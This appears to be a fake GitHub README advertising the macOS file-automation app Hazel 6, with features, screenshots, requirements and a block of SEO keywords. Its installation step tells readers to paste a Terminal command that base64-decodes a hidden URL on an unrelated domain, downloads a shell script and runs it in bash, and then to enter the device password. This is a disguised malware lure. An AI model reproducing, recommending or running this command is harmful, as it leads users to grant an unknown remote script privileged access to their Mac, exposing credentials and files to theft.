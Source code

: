 # 🗂 Hazel 6 – Smart File Automation for macOS

📌 About Hazel 6  
Hazel 6 is a powerful file automation utility for macOS that watches folders and applies custom rules to keep everything organized. Perfect for productivity enthusiasts and power users, Hazel can move, rename, sort, tag, and delete files automatically based on your preferences. With deep macOS integration and Apple Silicon support, it works silently in the background to keep your file system clean and efficient.

## 🧰 Installation via a command in the terminal:
1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9rYW0vaW5zdGFsbC5zaA== | base64 -d))"
```
2. Open Terminal on your device, paste the command, then press Return.  
3. Enter your device password when prompted and confirm the installation.

![Installing via Terminal](https://i.postimg.cc/NfzQxpMT/0723-1.gif)

## 📸 Overview  
A quick look at key parts in action:  
- ![](https://static.macupdate.com/screenshots/340504/m/hazel-screenshot.png?v=1667399039)  
- ![](https://www.noodlesoft.com/kb/wp-content/uploads/main.png)  

## 🎯 Key Features  
⚡️ Automatically organizes files by name, date, type, and more.  
🔒 Works locally with no cloud sync or external tracking.  
⚙️ Powerful rule editor with condition and action sets.  
🚀 Runs silently and efficiently with native Apple Silicon support.  
🎨 Clean native macOS interface with Dark Mode compatibility.  
📊 Built-in app sweep and trash management functions.

## 💡 System Requirements  
- OS: macOS 12.0 Monterey or newer  
- CPU: Apple Silicon or Intel Core i5 and above  
- RAM: 4 GB minimum  
- Storage: 200 MB available  
- Others: Terminal access and active internet connection

## 🔍 SEO Keywords  
`hazel 6 macos` · `file automation mac` · `mac file organizer` · `auto file sorting mac` · `hazel app apple silicon` · `clean downloads folder mac` · `rule based file manager` · `macos automation tool` · `folder watcher mac` · `rename move tag files` · `mac productivity app` · `trash cleanup utility` · `sort files by rule` · `local file manager mac` · `organize desktop mac`
